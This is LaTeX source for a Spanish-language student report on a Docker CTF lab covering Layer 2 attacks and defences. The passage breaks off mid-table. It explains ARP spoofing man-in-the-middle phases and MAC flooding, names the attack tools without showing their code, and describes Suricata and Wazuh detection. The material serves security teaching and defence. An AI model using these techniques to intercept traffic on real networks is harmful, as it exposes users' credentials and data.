% ============================================================================
% Informe Tecnico - Proyecto Final: CTF Layer 2 Security
% Redes de Computadoras - Universidad San Francisco de Quito (USFQ)
% Autores: Julian Leon, James Soto, Mauricio Mantilla
% Fecha: Marzo 2026
% ============================================================================

\documentclass[12pt, a4paper]{article}

% --- Paquetes ---
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[spanish]{babel}
\usepackage{geometry}
\usepackage{graphicx}
\graphicspath{{../ctf-layer2-security/screenshots/}}
\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{amsmath}
\usepackage{enumitem}
\usepackage{tikz}
\usepackage{parskip}
\usepackage{setspace}
\usepackage{tabularx}
\usepackage{pdflscape}
\usepackage{tcolorbox}
\usepackage{csquotes}

\usetikzlibrary{shapes.geometric, arrows, positioning, calc, fit}

% --- Configuracion de pagina ---
\geometry{
    top=2.5cm,
    bottom=2.5cm,
    left=3cm,
    right=2.5cm
}

\setstretch{1.15}

% --- Colores personalizados ---
\definecolor{usfqblue}{RGB}{0, 51, 102}
\definecolor{codebg}{RGB}{245, 245, 245}
\definecolor{codeframe}{RGB}{200, 200, 200}
\definecolor{codegreen}{RGB}{40, 120, 40}
\definecolor{codepurple}{RGB}{120, 40, 120}
\definecolor{codeblue}{RGB}{30, 80, 160}
\definecolor{alertred}{RGB}{180, 30, 30}
\definecolor{successgreen}{RGB}{30, 130, 50}

% --- Configuracion de hyperref ---
\hypersetup{
    colorlinks=true,
    linkcolor=usfqblue,
    citecolor=usfqblue,
    urlcolor=usfqblue,
    pdfauthor={Julian Leon, James Soto, Mauricio Mantilla},
    pdftitle={CTF Layer 2 Security - Laboratorio de Ataques y Defensas en Capa 2},
    pdfsubject={Redes de Computadoras - USFQ}
}

% --- Configuracion de listings ---
\lstdefinestyle{pythonstyle}{
    language=Python,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    basicstyle=\ttfamily\footnotesize,
    keywordstyle=\color{codeblue}\bfseries,
    stringstyle=\color{alertred},
    commentstyle=\color{codegreen}\itshape,
    numberstyle=\tiny\color{gray},
    numbers=left,
    numbersep=8pt,
    breaklines=true,
    breakatwhitespace=false,
    showstringspaces=false,
    tabsize=4,
    captionpos=b,
    xleftmargin=15pt,
    framexleftmargin=15pt,
    aboveskip=10pt,
    belowskip=10pt
}

\lstdefinestyle{yamlstyle}{
    basicstyle=\ttfamily\footnotesize,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    keywordstyle=\color{codeblue}\bfseries,
    stringstyle=\color{alertred},
    commentstyle=\color{codegreen}\itshape,
    numbers=left,
    numberstyle=\tiny\color{gray},
    numbersep=8pt,
    breaklines=true,
    showstringspaces=false,
    tabsize=2,
    captionpos=b,
    xleftmargin=15pt,
    framexleftmargin=15pt,
    morekeywords={version, services, networks, volumes, image, container_name, build, ports, environment, depends_on, network_mode, cap_add, restart}
}

\lstdefinestyle{bashstyle}{
    language=bash,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    basicstyle=\ttfamily\footnotesize,
    keywordstyle=\color{codeblue}\bfseries,
    stringstyle=\color{alertred},
    commentstyle=\color{codegreen}\itshape,
    numbers=none,
    breaklines=true,
    showstringspaces=false,
    captionpos=b,
    xleftmargin=10pt,
    framexleftmargin=10pt
}

\lstdefinestyle{rulestyle}{
    basicstyle=\ttfamily\footnotesize,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    breaklines=true,
    showstringspaces=false,
    captionpos=b,
    xleftmargin=10pt,
    framexleftmargin=10pt
}

% --- Encabezados y pies de pagina ---
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\footnotesize CTF Layer 2 Security}
\fancyhead[R]{\footnotesize Redes de Computadoras -- USFQ}
\fancyfoot[C]{\thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

% --- Formato de secciones ---
\titleformat{\section}
    {\Large\bfseries\color{usfqblue}}{\thesection.}{0.5em}{}
    [\titlerule]
\titleformat{\subsection}
    {\large\bfseries\color{usfqblue!80}}{\thesubsection}{0.5em}{}
\titleformat{\subsubsection}
    {\normalsize\bfseries\color{usfqblue!60}}{\thesubsubsection}{0.5em}{}

% --- Cajas para alertas y notas ---
\newtcolorbox{alertbox}{
    colback=alertred!5,
    colframe=alertred!75,
    fonttitle=\bfseries,
    title=Alerta de Seguridad
}

\newtcolorbox{infobox}{
    colback=codeblue!5,
    colframe=codeblue!75,
    fonttitle=\bfseries,
    title=Nota Tecnica
}

\newtcolorbox{resultbox}{
    colback=successgreen!5,
    colframe=successgreen!75,
    fonttitle=\bfseries,
    title=Resultado
}

% ============================================================================
% INICIO DEL DOCUMENTO
% ============================================================================
\begin{document}

% --- PORTADA ---
\begin{titlepage}
    \begin{center}
        \vspace*{1cm}

        % Placeholder para logo USFQ
        \begin{tikzpicture}
            \draw[usfqblue, thick, rounded corners=5pt] (-2.5,-1.5) rectangle (2.5,1.5);
            \node[text=usfqblue, font=\Large\bfseries] at (0,0.4) {USFQ};
            \node[text=usfqblue!70, font=\footnotesize] at (0,-0.4) {Logo de la Universidad};
        \end{tikzpicture}

        \vspace{1cm}

        {\LARGE\bfseries\color{usfqblue} Universidad San Francisco de Quito}\\[0.3cm]
        {\Large Colegio de Ciencias e Ingenier\'ias}\\[0.2cm]
        {\large Departamento de Ingenier\'ia en Ciencias de la Computaci\'on}

        \vspace{1.5cm}

        \rule{\textwidth}{1.5pt}\\[0.4cm]
        {\Huge\bfseries\color{usfqblue} CTF Layer 2 Security}\\[0.3cm]
        {\LARGE Laboratorio de Ataques y Defensas\\en Capa 2 con Docker}\\[0.2cm]
        \rule{\textwidth}{1.5pt}

        \vspace{1cm}

        {\Large\bfseries Proyecto Final}\\[0.3cm]
        {\Large Redes de Computadoras}

        \vspace{1.5cm}

        {\large
        \begin{tabular}{l}
            \textbf{Autores:}\\[0.2cm]
            Juli\'an Le\'on\\
            James Soto\\
            Mauricio Mantilla\\
        \end{tabular}
        }

        \vfill

        {\large Quito, Ecuador}\\[0.2cm]
        {\large Marzo 2026}

    \end{center}
\end{titlepage}

% --- Pagina en blanco despues de portada ---
\newpage
\thispagestyle{empty}
\mbox{}
\newpage

% --- INDICE ---
\pagenumbering{roman}
\tableofcontents
\newpage
\listoffigures
\newpage
\listoftables
\newpage

% ============================================================================
% CONTENIDO PRINCIPAL
% ============================================================================
\pagenumbering{arabic}
\setcounter{page}{1}

% ============================================================================
\section{Resumen Ejecutivo}
% ============================================================================

El presente informe documenta el dise\~no, implementaci\'on y evaluaci\'on de un laboratorio de seguridad de Capa 2 basado en la metodolog\'ia \textit{Capture The Flag} (CTF), desarrollado \'integramente en contenedores Docker. El proyecto aborda una de las \'areas m\'as cr\'iticas y frecuentemente subestimadas de la seguridad de redes: las vulnerabilidades inherentes al protocolo ARP (\textit{Address Resolution Protocol}) y los ataques que explotan la confianza impl\'icita en las comunicaciones de Capa 2.

La infraestructura desplegada comprende \textbf{13 contenedores Docker} interconectados en una red bridge personalizada (\texttt{172.20.0.0/24}), simulando un segmento de red LAN corporativa. La arquitectura incluye servicios vulnerables (v\'ictimas con servidores HTTP), un equipo de ataque (\textit{Red Team}) equipado con herramientas Scapy para ejecutar ataques de \textit{ARP Spoofing} y \textit{MAC Flooding}, un equipo de defensa (\textit{Blue Team}) con capacidades de monitoreo y restauraci\'on, un sistema de detecci\'on de intrusiones (Suricata) y un SIEM completo (Wazuh).

Los resultados demuestran la efectividad de los ataques de Capa 2 en redes sin controles adecuados: se capturaron \textbf{3 de 3 flags} mediante \textit{ARP Spoofing MITM}, se generaron \textbf{158+ alertas} de detecci\'on en el monitor ARP, y Suricata registr\'o \textbf{90 alertas} identificando credenciales y datos sensibles en texto plano. El laboratorio valida tanto la peligrosidad de estos ataques como la viabilidad de implementar defensas efectivas utilizando herramientas de c\'odigo abierto.

\newpage

% ============================================================================
\section{Introducci\'on}
% ============================================================================

\subsection{Contexto y Motivaci\'on}

La seguridad en redes de computadoras ha evolucionado significativamente en las capas superiores del modelo OSI, con la adopci\'on generalizada de protocolos como TLS/SSL, firewalls de aplicaci\'on y sistemas de autenticaci\'on robustos. Sin embargo, la Capa 2 del modelo OSI ---la capa de enlace de datos--- permanece como un vector de ataque frecuentemente ignorado en la arquitectura de seguridad de muchas organizaciones.

El protocolo ARP, dise\~nado en 1982 (RFC 826) para resolver direcciones IPv4 a direcciones MAC, carece de cualquier mecanismo de autenticaci\'on o verificaci\'on. Esta carencia fundamental permite que un atacante con acceso al segmento de red local pueda manipular las tablas ARP de otros dispositivos, redirigiendo tr\'afico leg\'itimo a trav\'es de su propia m\'aquina. Este tipo de ataque, conocido como \textit{ARP Spoofing} o \textit{ARP Poisoning}, habilita escenarios de interceptaci\'on (\textit{Man-in-the-Middle}), denegaci\'on de servicio y robo de credenciales.

\subsection{Importancia de la Seguridad en Capa 2}

La Capa 2 constituye el cimiento sobre el cual operan todas las capas superiores. Un compromiso en este nivel tiene implicaciones en cascada:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Transparencia}: Los ataques de Capa 2 son invisibles para firewalls y sistemas de detecci\'on que operan en Capa 3 o superior.
    \item \textbf{Acceso privilegiado}: Un atacante que controla el flujo de tr\'afico en Capa 2 puede interceptar, modificar o bloquear cualquier comunicaci\'on dentro del segmento de red.
    \item \textbf{Evadir cifrado}: Aunque el tr\'afico est\'e cifrado en capas superiores, el control de Capa 2 permite ataques de \textit{downgrade}, \textit{SSL stripping} o simplemente la captura de protocolos no cifrados.
    \item \textbf{Persistencia}: Las tablas ARP envenenadas pueden mantenerse indefinidamente si el atacante env\'ia paquetes ARP peri\'odicamente.
\end{itemize}

\subsection{Enfoque CTF}

La metodolog\'ia \textit{Capture The Flag} (CTF) proporciona un marco gamificado para el aprendizaje de ciberseguridad. En este proyecto, se adopta un enfoque CTF de tipo \textit{Jeopardy} con componentes de \textit{Attack/Defense}, donde:

\begin{itemize}[leftmargin=2cm]
    \item Los desaf\'ios simulan escenarios reales de ataques de Capa 2.
    \item Las \textit{flags} (cadenas de texto con formato \texttt{FLAG\{...\}}) est\'an ocultas en servicios vulnerables.
    \item La plataforma CTFd gestiona la competencia, los puntajes y la validaci\'on de \textit{flags}.
    \item El equipo defensor debe detectar y mitigar los ataques en tiempo real.
\end{itemize}

\subsection{Alcance del Proyecto}

Este proyecto abarca el ciclo completo de un ejercicio de seguridad ofensiva y defensiva en Capa 2:

\begin{enumerate}[leftmargin=2cm]
    \item Dise\~no e implementaci\'on de una infraestructura de red virtualizada.
    \item Desarrollo de herramientas de ataque basadas en Scapy.
    \item Desarrollo de herramientas de detecci\'on y mitigaci\'on.
    \item Integraci\'on de un NIDS (Suricata) y un SIEM (Wazuh).
    \item Configuraci\'on de una plataforma CTF con desaf\'ios progresivos.
    \item Ejecuci\'on, evaluaci\'on y documentaci\'on de resultados.
\end{enumerate}

\newpage

% ============================================================================
\section{Objetivos}
% ============================================================================

\subsection{Objetivo General}

Dise\~nar, implementar y evaluar un laboratorio de seguridad de Capa 2 basado en contenedores Docker que permita demostrar, detectar y mitigar ataques de \textit{ARP Spoofing} y \textit{MAC Flooding} mediante un enfoque pr\'actico de \textit{Capture The Flag}.

\subsection{Objetivos Espec\'ificos}

\begin{enumerate}[leftmargin=2cm]
    \item Construir una infraestructura de red virtualizada con 13 contenedores Docker que simule un segmento LAN corporativo con servicios vulnerables, equipos ofensivos y defensivos.

    \item Desarrollar herramientas de ataque en Python/Scapy capaces de ejecutar \textit{ARP Spoofing} (envenenamiento de tablas ARP) y \textit{MAC Flooding} (desbordamiento de tabla CAM) de forma controlada.

    \item Implementar mecanismos de detecci\'on activa y pasiva que identifiquen anomal\'ias en el tr\'afico ARP y la aparici\'on de direcciones MAC desconocidas en la red.

    \item Integrar un sistema de detecci\'on de intrusiones de red (Suricata) con reglas personalizadas para tr\'afico ARP y HTTP, capaz de generar alertas en formato EVE JSON.

    \item Desplegar un SIEM (Wazuh) que centralice los eventos de seguridad, correlacione alertas de m\'ultiples fuentes y proporcione un \textit{dashboard} de visualizaci\'on.

    \item Configurar una plataforma CTFd con 6 desaf\'ios progresivos que eval\'uen habilidades tanto ofensivas (captura de \textit{flags}) como defensivas (detecci\'on de ataques).

    \item Documentar las contramedidas recomendadas a nivel de infraestructura de red (DAI, Port Security, DHCP Snooping, 802.1X) que prevenir\'ian estos ataques en un entorno de producci\'on.
\end{enumerate}

\newpage

% ============================================================================
\section{Marco Te\'orico}
% ============================================================================

\subsection{Modelo OSI y la Capa de Enlace de Datos}

El modelo de referencia OSI (\textit{Open Systems Interconnection}) define siete capas de abstracci\'on para las comunicaciones de red. La Capa 2, o capa de enlace de datos, es responsable de la transferencia confiable de datos entre nodos adyacentes en una red local. En redes Ethernet (IEEE 802.3), esta capa utiliza direcciones MAC (\textit{Media Access Control}) de 48 bits como identificadores \'unicos de hardware.

Los switches de Capa 2 mantienen una \textbf{tabla CAM} (\textit{Content Addressable Memory}), tambi\'en conocida como tabla de direcciones MAC, que asocia cada direcci\'on MAC con el puerto f\'isico donde fue observada. Esta tabla permite al switch reenviar tramas \'unicamente al puerto de destino correcto, evitando la difusi\'on innecesaria de tr\'afico.

\subsection{Protocolo ARP}

El \textit{Address Resolution Protocol} (ARP), definido en el RFC 826, proporciona el mecanismo de resoluci\'on de direcciones IPv4 a direcciones MAC dentro de un segmento de red local. Su funcionamiento se basa en dos tipos de mensajes:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{ARP Request} (\texttt{op=1}, \textit{who-has}): Mensaje de difusi\'on (\textit{broadcast}) enviado a \texttt{ff:ff:ff:ff:ff:ff} preguntando ``?`qui\'en tiene la IP X?''.
    \item \textbf{ARP Reply} (\texttt{op=2}, \textit{is-at}): Respuesta unicast indicando ``la IP X est\'a en la MAC Y''.
\end{itemize}

Cada host mantiene una \textbf{tabla ARP} (\textit{ARP cache}) que almacena temporalmente las asociaciones IP-MAC aprendidas. La vulnerabilidad fundamental de ARP es que \textbf{no implementa ning\'un mecanismo de autenticaci\'on}: cualquier host puede enviar respuestas ARP no solicitadas (\textit{gratuitous ARP}) y los receptores las aceptan sin verificaci\'on.

\subsection{ARP Spoofing y Man-in-the-Middle}

El \textit{ARP Spoofing} (tambi\'en denominado \textit{ARP Poisoning} o \textit{ARP Cache Poisoning}) es un ataque que explota la falta de autenticaci\'on en el protocolo ARP. El atacante env\'ia paquetes ARP Reply falsificados para asociar su propia direcci\'on MAC con la direcci\'on IP de otro host (t\'ipicamente el gateway de la red).

El proceso de un ataque \textit{Man-in-the-Middle} (MITM) mediante ARP Spoofing se desarrolla en las siguientes fases:

\begin{enumerate}[leftmargin=2cm]
    \item \textbf{Reconocimiento}: El atacante identifica las direcciones IP y MAC del gateway y las v\'ictimas.
    \item \textbf{Envenenamiento}: Se env\'ian ARP Replies falsos a las v\'ictimas, indicando que la IP del gateway corresponde a la MAC del atacante.
    \item \textbf{Interceptaci\'on}: El tr\'afico de las v\'ictimas fluye a trav\'es del atacante, quien puede inspeccionar, modificar o descartar los paquetes.
    \item \textbf{Reenv\'io}: Para mantener la conectividad y evitar detecci\'on, el atacante reenv\'ia el tr\'afico al destino leg\'itimo (habilitando \textit{IP forwarding}).
\end{enumerate}

\begin{alertbox}
En este proyecto, se utiliz\'o el modo \textit{broadcast} para el ARP Spoofing (\texttt{Ether(dst="ff:ff:ff:ff:ff:ff")}), lo cual permite que el equipo Blue Team detecte los paquetes falsificados al ser visibles para todos los hosts en la red.
\end{alertbox}

\subsection{MAC Flooding}

El ataque de \textit{MAC Flooding} explota la capacidad limitada de la tabla CAM de los switches. Al inundar la red con tramas Ethernet que contienen direcciones MAC de origen aleatorias, se busca desbordar la tabla CAM del switch. Cuando la tabla se llena, el switch entra en modo \textit{fail-open}: las tramas con direcciones MAC de destino desconocidas se reenv\'ian a todos los puertos, convirtiendo efectivamente el switch en un hub.

En un entorno Docker, la red bridge act\'ua como un switch virtual implementado en el kernel de Linux. Aunque su tabla MAC no tiene las mismas limitaciones que un switch f\'isico, el ataque genera un volumen significativo de tr\'afico an\'omalo que puede ser detectado por herramientas de monitoreo.

\subsection{Scapy}

Scapy es una biblioteca de Python para la manipulaci\'on interactiva de paquetes de red. Permite construir, enviar, capturar y decodificar paquetes de pr\'acticamente cualquier protocolo. Sus caracter\'isticas principales incluyen:

\begin{itemize}[leftmargin=2cm]
    \item Construcci\'on de paquetes capa por capa con operador \texttt{/}.
    \item Env\'io de paquetes en Capa 2 (\texttt{sendp()}) y Capa 3 (\texttt{send()}).
    \item Captura de tr\'afico con filtros BPF (\texttt{sniff()}).
    \item Soporte completo para ARP, Ethernet, IP, TCP, UDP, HTTP, entre otros.
\end{itemize}

\subsection{Redes Docker y Simulaci\'on de Capa 2}

Docker proporciona varios controladores de red (\textit{drivers}). El controlador \texttt{bridge} crea un switch virtual (puente Linux) que conecta los contenedores dentro de un segmento de red aislado. Las caracter\'isticas relevantes para este proyecto son:

\begin{itemize}[leftmargin=2cm]
    \item Cada contenedor recibe una interfaz virtual (\texttt{veth}) conectada al puente.
    \item Los contenedores pueden comunicarse en Capa 2 (tramas Ethernet) y Capa 3 (paquetes IP).
    \item El puente Linux mantiene una tabla MAC similar a un switch f\'isico.
    \item Los contenedores con \texttt{cap\_add: NET\_ADMIN} y \texttt{NET\_RAW} pueden manipular tr\'afico de red a bajo nivel.
    \item La opci\'on \texttt{network\_mode: service:<otro\_contenedor>} permite compartir el \textit{network namespace}, habilitando la captura de todo el tr\'afico que pasa por esa interfaz.
\end{itemize}

\begin{infobox}
La red bridge de Docker simula un segmento LAN (\textit{Local Area Network}) con un switch virtual en el kernel de Linux. Esto proporciona un entorno realista para practicar ataques y defensas de Capa 2 sin requerir hardware f\'isico.
\end{infobox}

\subsection{Sistemas de Detecci\'on de Intrusiones (IDS)}

Un \textit{Intrusion Detection System} (IDS) monitorea el tr\'afico de red o la actividad del sistema en busca de patrones maliciosos. Se clasifican en:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{NIDS} (\textit{Network-based IDS}): Analiza el tr\'afico de red en tiempo real. Ejemplo: Suricata, Snort.
    \item \textbf{HIDS} (\textit{Host-based IDS}): Monitorea la actividad en un host individual. Ejemplo: OSSEC, Wazuh Agent.
\end{itemize}

\textbf{Suricata} es un motor NIDS/IPS de c\'odigo abierto mantenido por la OISF (\textit{Open Information Security Foundation}). Soporta inspecci\'on profunda de paquetes (DPI), detecci\'on basada en firmas, y genera logs en formato EVE JSON. En este proyecto, Suricata se despleg\'o compartiendo el \textit{namespace} de red del gateway (similar a un puerto SPAN en un switch f\'isico) para capturar todo el tr\'afico que transita por la red.

\subsection{SIEM: Security Information and Event Management}

Un SIEM centraliza la recolecci\'on, correlaci\'on y an\'alisis de eventos de seguridad provenientes de m\'ultiples fuentes. \textbf{Wazuh} es una plataforma SIEM de c\'odigo abierto que integra:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Wazuh Manager}: Motor de an\'alisis y correlaci\'on de eventos.
    \item \textbf{Wazuh Indexer}: Almacenamiento basado en OpenSearch para indexar y buscar eventos.
    \item \textbf{Wazuh Dashboard}: Interfaz web para visualizaci\'on y b\'usqueda de alertas.
\end{itemize}

La integraci\'on de Suricata con Wazuh se realiza mediante la lectura del archivo \texttt{eve.json} generado por Suricata, permitiendo la correlaci\'on de alertas de red con reglas personalizadas de Wazuh.

\newpage

% ============================================================================
\section{Arquitectura del Laboratorio}
% ============================================================================

\subsection{Visi\'on General}

El laboratorio se compone de 13 contenedores Docker desplegados en una red bridge personalizada con el segmento \texttt{172.20.0.0/24}. La arquitectura sigue un modelo de separaci\'on de roles: servicios de infraestructura, servicios vulnerables (v\'ictimas), equipo ofensivo (Red Team), equipo defensivo (Blue Team), plataforma CTF y sistemas de monitoreo de seguridad.

\subsection{Diagrama de Red}

\begin{figure}[H]
    \centering
    \begin{tikzpicture}[
        node distance=1.5cm,
        box/.style={rectangle, draw=usfqblue, thick, fill=usfqblue!5, minimum width=3cm, minimum height=1cm, text centered, font=\footnotesize},
        victim/.style={rectangle, draw=alertred!70, thick, fill=alertred!5, minimum width=2.8cm, minimum height=1cm, text centered, font=\footnotesize},
        attack/.style={rectangle, draw=alertred, thick, fill=alertred!10, minimum width=3cm, minimum height=1cm, text centered, font=\footnotesize},
        defense/.style={rectangle, draw=successgreen, thick, fill=successgreen!5, minimum width=3cm, minimum height=1cm, text centered, font=\footnotesize},
        monitor/.style={rectangle, draw=codepurple, thick, fill=codepurple!5, minimum width=2.8cm, minimum height=1cm, text centered, font=\footnotesize},
        ctf/.style={rectangle, draw=codeblue, thick, fill=codeblue!5, minimum width=2.8cm, minimum height=1cm, text centered, font=\footnotesize},
        net/.style={draw=usfqblue, very thick, fill=usfqblue!8, rounded corners=5pt},
    ]

    % Red central
    \node[net, minimum width=14cm, minimum height=0.6cm] (network) {\textbf{Red Bridge: ctf-network (172.20.0.0/24)}};

    % Gateway + Suricata
    \node[box, above=1.2cm of network.north west, xshift=2cm] (gw) {Gateway\\\texttt{172.20.0.2}};
    \node[monitor, right=0.3cm of gw] (suricata) {Suricata\\\texttt{(net: gateway)}};

    % Victimas
    \node[victim, below=1.2cm of network.south west, xshift=1cm] (v1) {Victim1 (HTTP)\\\texttt{172.20.0.10}};
    \node[victim, right=0.3cm of v1] (v2) {Victim2 (Files)\\\texttt{172.20.0.11}};
    \node[victim, right=0.3cm of v2] (v3) {Victim3 (POST)\\\texttt{172.20.0.12}};

    % Red Team y Blue Team
    \node[attack, above=1.2cm of network.north east, xshift=-4cm] (red) {Red Team\\\texttt{172.20.0.100}};
    \node[defense, right=0.3cm of red] (blue) {Blue Team\\\texttt{172.20.0.200}};

    % CTFd
    \node[ctf, below=1.2cm of network.south east, xshift=-4.5cm] (ctfd) {CTFd\\\texttt{172.20.0.250}};
    \node[ctf, right=0.3cm of ctfd] (ctfdb) {CTFd-DB\\\texttt{.251}};
    \node[ctf, left=0.3cm of ctfd] (ctfcache) {CTFd-Cache\\\texttt{.252}};

    % Wazuh
    \node[monitor, below=2.8cm of network, xshift=-1cm] (wm) {Wazuh Manager\\\texttt{172.20.0.240}};
    \node[monitor, left=0.3cm of wm] (wi) {Wazuh Indexer\\\texttt{172.20.0.241}};
    \node[monitor, right=0.3cm of wm] (wd) {Wazuh Dashboard\\\texttt{172.20.0.242}};

    % Conexiones
    \draw[thick, usfqblue] (gw.south) -- (gw.south |- network.north);
    \draw[thick, codepurple, dashed] (suricata.south) -- (suricata.south |- network.north);
    \draw[thick, alertred] (red.south) -- (red.south |- network.north);
    \draw[thick, successgreen] (blue.south) -- (blue.south |- network.north);
    \draw[thick, alertred!70] (v1.north) -- (v1.north |- network.south);
    \draw[thick, alertred!70] (v2.north) -- (v2.north |- network.south);
    \draw[thick, alertred!70] (v3.north) -- (v3.north |- network.south);
    \draw[thick, codeblue] (ctfd.north) -- (ctfd.north |- network.south);
    \draw[thick, codeblue, dashed] (ctfdb.north) -- ++(0, 0.3);
    \draw[thick, codeblue, dashed] (ctfcache.north) -- ++(0, 0.3);
    \draw[thick, codepurple] (wm.north) -- ++(0, 0.4);
    \draw[thick, codepurple, dashed] (wi.north) -- ++(0, 0.4);
    \draw[thick, codepurple, dashed] (wd.north) -- ++(0, 0.4);

    \end{tikzpicture}
    \caption{Diagrama de la arquitectura de red del laboratorio CTF Layer 2 Security.}
    \label{fig:network-diagram}
\end{figure}

\subsection{Tabla de Direccionamiento IP}

\begin{table}[H]
    \centering
    \caption{Asignaci\'on de direcciones IP y roles de los contenedores.}
    \label{tab:ip-assignment}
    \begin{tabularx}{\textwidth}{|l|l|l|X|}
        \hline
        \textbf{Contenedor} & \textbf{IP} & \textbf{Rol} & \textbf{Descripci\'on} \\
        \hline\hline
        Gateway & 172.20.0.2 & Infraestructura & Gateway de la red, servidor HTTP en puerto 80 para recibir POST de v\'ictimas \\
        \hline
        Victim1 & 172.20.0.10 & V\'ictima & Servidor HTTP con flag oculta en comentario HTML \\
        \hline
        Victim2 & 172.20.0.11 & V\'ictima & Servidor de archivos con flag en \texttt{/backup/db\_credentials.txt} \\
        \hline
        Victim3 & 172.20.0.12 & V\'ictima & Env\'ia HTTP POST peri\'odico (cada 10s) con flag como \texttt{auth\_token} \\
        \hline
        Red Team & 172.20.0.100 & Atacante & Herramientas Scapy para ARP Spoofing, MAC Flooding y captura de flags \\
        \hline
        Blue Team & 172.20.0.200 & Defensor & Monitores ARP, detector de anomal\'ias MAC, restauraci\'on ARP \\
        \hline
        CTFd & 172.20.0.250 & Plataforma & Plataforma CTF con API REST para gesti\'on de desaf\'ios \\
        \hline
        CTFd-DB & 172.20.0.251 & Plataforma & Base de datos MariaDB para CTFd \\
        \hline
        CTFd-Cache & 172.20.0.252 & Plataforma & Cach\'e Redis para CTFd \\
        \hline
        Wazuh Manager & 172.20.0.240 & SIEM & Motor de an\'alisis y correlaci\'on de eventos \\
        \hline
        Wazuh Indexer & 172.20.0.241 & SIEM & Almacenamiento OpenSearch para eventos \\
        \hline
        Wazuh Dashboard & 172.20.0.242 & SIEM & Interfaz web en \texttt{https://localhost:5601} \\
        \hline
        Suricata & (gateway) & NIDS & Comparte red con gateway; 7 reglas personalizadas \\
        \hline
    \end{tabularx}
\end{table}

\subsection{Descripci\'on de Componentes}

\subsubsection{Gateway}

El contenedor \texttt{gateway} act\'ua como router y punto central de la red. Ejecuta un servidor HTTP en el puerto 80 que es necesario para que el contenedor \texttt{victim3} pueda completar sus conexiones TCP y enviar el POST con la flag en el cuerpo de la solicitud. Suricata comparte el \textit{namespace} de red de este contenedor.

\subsubsection{Servicios Vulnerables}

Los tres contenedores de v\'ictimas simulan servicios corporativos con configuraciones inseguras:

\begin{itemize}[leftmargin=2cm]
    \item \textbf{Victim1}: Servidor HTTP cuya p\'agina web contiene una flag en un comentario HTML (\texttt{<!-- FLAG\{...\} -->}}). Simula informaci\'on sensible expuesta en el c\'odigo fuente.
    \item \textbf{Victim2}: Servidor de archivos que expone un directorio \texttt{/backup/} con un archivo \texttt{db\_credentials.txt} que contiene credenciales en texto plano y una flag.
    \item \textbf{Victim3}: Servicio que env\'ia peri\'odicamente (cada 10 segundos) una solicitud HTTP POST al gateway con un \texttt{auth\_token} que contiene la flag. Simula una comunicaci\'on de autenticaci\'on sin cifrar.
\end{itemize}

\subsubsection{Red Team}

El contenedor del equipo ofensivo est\'a equipado con Python 3 y Scapy, con capacidades \texttt{NET\_ADMIN} y \texttt{NET\_RAW} para manipulaci\'on de paquetes a bajo nivel. Contiene cuatro herramientas:

\begin{itemize}[leftmargin=2cm]
    \item \texttt{arp\_spoof.py}: Ejecuta ARP Spoofing para posicionarse como MITM.
    \item \texttt{mac\_flood.py}: Genera tr\'afico con MACs aleatorias para desbordar la tabla CAM.
    \item \texttt{capture\_flags.py}: Captura tr\'afico HTTP y busca patrones \texttt{FLAG\{...\}}.
    \item \texttt{submit\_flag.py}: Env\'ia flags capturadas al CTFd v\'ia API REST.
\end{itemize}

\subsubsection{Blue Team}

El contenedor defensivo implementa tres herramientas de monitoreo y mitigaci\'on:

\begin{itemize}[leftmargin=2cm]
    \item \texttt{arp\_monitor.py}: Monitoreo h\'ibrido (activo + pasivo) de tablas ARP.
    \item \texttt{mac\_anomaly\_detector.py}: Detecci\'on de nuevas direcciones MAC an\'omalas.
    \item \texttt{arp\_restore.py}: Restauraci\'on de tablas ARP envenenadas.
\end{itemize}

\subsubsection{Suricata (NIDS)}

Suricata opera con \texttt{network\_mode: service:gateway}, lo que le permite capturar todo el tr\'afico que pasa por la interfaz del gateway, de manera an\'aloga a la configuraci\'on de un puerto SPAN (\textit{mirror port}) en un switch f\'isico. Utiliza 7 reglas personalizadas y genera logs en formato EVE JSON.

\subsubsection{Wazuh (SIEM)}

El stack de Wazuh se compone de tres contenedores que proporcionan almacenamiento indexado (OpenSearch), procesamiento de reglas y un dashboard web. Se integra con Suricata mediante un volumen compartido que expone el archivo \texttt{eve.json}.

\newpage

% ============================================================================
\section{Implementaci\'on}
% ============================================================================

La implementaci\'on del laboratorio se realiz\'o en seis fases progresivas, cada una construyendo sobre la anterior.

\subsection{Fase 1: Infraestructura Base Docker}

La primera fase estableci\'o la red Docker y los contenedores fundamentales.

\subsubsection{Configuraci\'on de Red}

Se cre\'o una red bridge personalizada con subred espec\'ifica para permitir la asignaci\'on est\'atica de IPs:

\begin{lstlisting}[style=yamlstyle, caption={Definici\'on de la red en docker-compose.yml}]
networks:
  ctf-network:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/24
          gateway: 172.20.0.1
\end{lstlisting}

\subsubsection{Contenedor Gateway}

El gateway requiri\'o un servidor HTTP funcional en el puerto 80 para que las conexiones TCP de \texttt{victim3} pudieran completarse correctamente. Sin este servidor, el POST con la flag no se transmit\'ia por la red:

\begin{lstlisting}[style=yamlstyle, caption={Configuraci\'on del contenedor gateway}]
gateway:
  build: ./containers/gateway
  container_name: gateway
  cap_add:
    - NET_ADMIN
    - NET_RAW
  networks:
    ctf-network:
      ipv4_address: 172.20.0.2
  ports:
    - "80:80"
\end{lstlisting}

\subsection{Fase 2: Servicios Vulnerables y CTFd}

\subsubsection{Dise\~no de Flags}

Cada flag sigue el formato \texttt{FLAG\{descripcion\_legible\}} y est\'a integrada en el servicio de manera realista:

\begin{table}[H]
    \centering
    \caption{Flags y su ubicaci\'on en los servicios vulnerables.}
    \label{tab:flags}
